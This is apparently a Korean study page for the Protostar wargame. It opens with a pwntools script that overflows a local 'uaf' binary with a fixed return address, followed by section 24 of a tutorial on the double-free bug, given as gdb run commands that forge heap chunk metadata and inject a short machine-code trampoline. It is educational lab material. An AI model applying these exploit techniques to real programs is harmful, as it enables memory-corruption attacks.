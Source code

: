 ```python !uaf1.py
from pwn import *

offset = 46
bin_sh = p32(0x08048612)
payload = 'A' * offset + bin_sh
pattern = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

p = process('uaf')
print p.recvrepeat(1)
p.sendline('gasbugs')
print p.recvrepeat(1)
pause()
p.sendline(payload)
p.interactive()
```
=======================================================

## 프로토스타 튜토리얼 - 24. DFB(Double Free bug) 이해와 실습

- Live over flow Heap3
http://liveoverflow.com/binary_hacking/protostar/heap3.html

- once upon a free()
http://phrack.org/issues/57/9.html

- 머신코드 만들기
https://defuse.ca/online-x86-assembler.htm#disassembly

- Double Free Bug
http://www.hackerschool.org/HS_Boards/data/Lib_system/dfb_leon.txt

- 힙 정보 보기
> x/80wx 0x804c008 - 8

- 첫 번째 시도
> run AAAA `python -c "print 'B'*36 + '\x65' "` CCCC

- 두 번째 시도
> run AAAA `python -c "print 'B'*36 + '\x65' "` `python -c "print 'A'*92 + '\xfc\xff\xff\xff' * 2 + '\xfd\xfd\xfd\xfd' + '\xbd\xbd\xbd\xbd'"`

- 세 번째 시도

> fd = 0x0804B11C

> bd = 0x08048864

> run AAAA `python -c "print 'B'*36 + '\x65' "` `python -c "print 'A'*92 + '\xfc\xff\xff\xff' * 2 + '\x1C\xB1\x04\x08' + '\x64\x88\x04\x08'"`

- 네 번째 시도

> 머신코드 징검다리 넣기: B864880408FFD0

> run `python -c "print 'A'*8 + '\xB8\x64\x88\x04\x08\xFF\xD0'"` `python -c "print 'B'*36 + '\x65' "` `python -c "print 'A'*92 + '\xfc\xff\xff\xff' * 2 + '\x1C\xB1\x04\x08' + '\x10\xc0\x04\x08'"`
